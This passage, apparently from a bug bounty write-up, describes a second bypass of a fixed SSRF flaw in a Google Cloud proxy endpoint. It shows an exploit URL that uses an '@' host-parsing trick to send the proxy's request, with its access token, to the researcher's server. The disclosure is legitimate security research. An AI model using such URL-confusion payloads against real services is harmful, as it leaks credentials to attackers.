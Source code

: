 ```
https://b347699687-dev-gokulr-dot-default-dot-cxl-services.appspot.com/proxy?url=https://sfmnev.vps.xdavidhu.me\@jobs.googleapis.com/
```

And indeed, it worked! My web server received a request with an access token in the `authorization` header. It was still exploitable! Even though the proxy version I called was old, it worked the same way. It still generated an access token, and most importantly, it didn't have the original vulnerability patched yet.

Once again, the Google VRP panel rewarded this second bypass as well. So, check your fixes.. *of your fixes!*

**Will *you* be the one to bypass it for the 3rd time and get $3133.7?**